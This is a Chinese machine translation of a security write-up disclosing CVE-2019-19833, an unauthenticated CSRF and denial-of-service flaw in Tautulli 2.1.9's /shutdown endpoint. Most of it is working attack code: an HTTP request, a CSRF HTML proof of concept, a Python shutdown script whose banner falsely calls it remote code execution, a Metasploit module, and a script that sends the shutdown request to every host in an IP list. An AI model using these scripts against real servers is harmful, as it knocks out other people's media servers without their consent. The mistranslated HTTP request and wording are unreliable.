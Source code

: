 # 陶图利 2.1.9 版本；跨站点请求伪造(关闭)和拒绝服务(Metasploit)

> 原文：<https://infosecwriteups.com/tautulli-2-1-9-version-cross-site-request-forgery-shutdown-and-denial-of-service-metasploit-f23d6b1fc464?source=collection_archive---------3----------------------->

![](img/c5789447c3d6abe7e876b5f1b72e4584.png)

陶图里 2 . 1 . 9(CVE-2019–19833)

在做安全研究的时候，我偶然发现了一个叫 Tautulli 的产品。我开始检查相关的应用程序。我在这个产品中发现了两个安全漏洞。可以创建 CSRF 和 DDOS 效果。因此，可以远程关闭媒体服务器。

主要问题是对/shutdown 参数函数的匿名访问。经过长期的斗争，我发现了这一点。

**详情:**

在 Tautulli 制造商的 v2.1.9 的相应版本中，已经发现在没有用户登录区域的应用中可以实现匿名访问，并且可以关闭远程媒体服务器。

**什么是陶图利？**

Tautulli 是一个第三方应用程序，允许您监控和跟踪您的 Plex 媒体服务器活动。它提供了一个基于 web 的界面，让您可以查看有关媒体库的统计数据和信息，包括观看过的内容、观看者和设备。Tautulli 还提供了一些功能来帮助您管理 Plex 媒体服务器，如查看和删除用户、更新媒体元数据以及为特定事件设置通知。

Tautulli 是用 Python 编写的，可以安装在各种平台上，包括 Windows、macOS 和 Linux。它需要运行 Plex 媒体服务器才能运行，并且可以使用服务器的 IP 地址和安装期间指定的端口通过 web 浏览器进行访问。

除了核心功能之外，Tautulli 还提供了几个可选插件，可以添加额外的功能，如自动更新媒体元数据或通过 Discord 发送通知。

**漏洞信息:**

漏洞标题:tau tulli 2 . 1 . 9-跨站点请求伪造(关闭)

Exploit 作者:Ismail Tasdelen

供应商主页:https://tautulli.com/

软件:https://github.com/Tautulli/Tautulli

产品版本:v2.1.9

平台:Windows 10 (10.0.18362)

Python 版本:2.7.11 (v2.7.11:6d1b6a68f775，2015 年 12 月 5 日 20:40:30)[MSC v . 1500 64 bit(AMD64)]

漏洞类型:跨站点请求伪造(关闭)

漏洞:跨站点请求伪造

CVE:CVE-2019–19833

在 Tautulli 2.1.9 中，/shutdown URI 中的 CSRF 允许攻击者**关闭远程媒体服务器。**(同样，**匿名访问**可以在没有用户登录区的应用中实现)。

> **CVSS 评分:**

CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:N/A:H

> **HTTP GET 请求:**

*获取/关闭 HTTP/1.1 主机:XXX。XXX.XXX.XXX:8181 用户代理:Mozilla/5.0(Windows NT 10.0；Win64x64RV:71.0)Gecko/2010 01 01 Firefox/71.0 接受:text/html，application/xhtml+xml，application/XML；q=0.9，*/*；q=0.8 Accept-Language: en-US，en；q=0.5 Accept-Encoding: gzip，deflate Connection:close Referer:http://XXX.XXX.XXX.XXX:8181/home 升级-不安全-Requests: 1*

> **CSRF 概念验证 HTML :**

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://XXX.XXX.XXX.XXX:8181/shutdown">
      <input type="submit" value="Submit request" />
    </form>
  </body>
```

> **Python 代码:**

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import requests

icon = """
 _____ __  _  _ _____ _  _ _   _   _   _   _ ___   __  ___
|_   _/  \| || |_   _| || | | | | | | | \ / (_  | /  |/ _ \
  | || /\ | \/ | | | | \/ | |_| |_| | `\ V /'/ /__`7 |\__ /
  |_||_||_|\__/  |_|  \__/|___|___|_|   \_/ |___\/ |_\//_/
     Unauthenticated Remote Code Execution
                                   by Ismail Tasdelen
"""

print(icon)

host = input("[+] HOST: ")
port = input("[+] PORT: ")

response = requests.get("http://" + host + ":" + port + "/" + "shutdown" ) # You can also run the restart and update_check commands.

if response.status_code == 200:
    print('[✓] Success!')
elif response.status_code != 200:
    print('[✗] Unsuccessful!')
else:
    exit()
```

> **拒绝服务(Metasploit) :**

```
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Auxiliary
  include Msf::Exploit::Remote::HttpClient

  def initialize
    super(
      'Name'        => 'Tautulli v2.1.9 - Shutdown Denial of Service',
      'Description' => 'Tautulli versions 2.1.9 and prior are vulnerable to denial of service via the /shutdown URL.',
      'Author'      => 'Ismail Tasdelen',
      'License'     => MSF_LICENSE,
      'References'  =>
      [
        ['CVE', '2019-19833'],
        ['EDB', '47785']
      ]
    )
    register_options([ Opt::RPORT(8181) ])
  end

  def run
    res = send_request_raw({
      'method' => 'GET',
      'uri' => '/shutdown'
    })

    if res
      print_status("Request sent to #{rhost}")
    else
      print_status("No reply from #{rhost}")
    end
  rescue Errno::ECONNRESET
    print_status('Connection reset')
  end
end
```

现在我开发了一个攻击代码。我们正在开发一个攻击代码，它使用 Python 编程语言将 ip 或主机名列表检查为 http 或 https，并使用 firefox 用户代理向/shutdown 参数发送请求，如下所示。

```
import requests

# Read the IP list from the file
with open('ip_list.txt', 'r') as f:
    ip_list = f.readlines()

# Iterate over the IP list
for ip in ip_list:
    ip = ip.strip()  # Remove any whitespace from the end of the line
    if not ip.startswith('http://') and not ip.startswith('https://'):
        # The IP is not using HTTP or HTTPS, so send the request
        url = f'http://{ip}:8181/shutdown'
        headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:78.0) Gecko/20100101 Firefox/78.0'}
        response = requests.get(url, headers=headers)
        print(response.status_code)  # Print the HTTP status code of the response
```

**参考文献:**

[](https://nvd.nist.gov/vuln/detail/CVE-2019-19833) [## NVD

### 正在进行重新分析此漏洞已被修改，目前正在进行重新分析。请回来查看…

nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2019-19833) [](https://www.rapid7.com/db/modules/auxiliary/dos/http/tautulli_shutdown_exec/) [## Tautulli v2.1.9 -关闭拒绝服务

### Rapid7 的 VulnDB 是经过审查的计算机软件漏洞和可利用漏洞的精选存储库。

www.rapid7.com](https://www.rapid7.com/db/modules/auxiliary/dos/http/tautulli_shutdown_exec/) [](https://github.com/rapid7/metasploit-framework/blob/master//modules/auxiliary/dos/http/tautulli_shutdown_exec.rb) [## 主 rapid7/metasploit-framework 上的 metasploit-framework/tau tulli _ shut down _ exec . Rb

### Metasploit 框架。通过在 GitHub 上创建帐户，为 rapid7/metasploit-framework 开发做出贡献。

github.com](https://github.com/rapid7/metasploit-framework/blob/master//modules/auxiliary/dos/http/tautulli_shutdown_exec.rb) [](https://www.exploit-db.com/exploits/47929) [## 攻击性安全利用数据库档案

### #此模块需要 Metasploit:https://metasploit.com/download #当前源…

www.exploit-db.com](https://www.exploit-db.com/exploits/47929) [](https://cve.report/CVE-2019-19833) [## CVE-2019-19833

### CVE-2019-19833 是一个与安全漏洞相关的披露标识符，详细信息如下。在陶图利…

cve .报告](https://cve.report/CVE-2019-19833) ![](img/de1b92c8e282c5ca86b94513225b21da.png)

杰克·斯派洛船长——加勒比海盗

在这篇文章中，我提到了我在过去几年中发现的一个安全问题。保重，在我的下一篇文章中再见。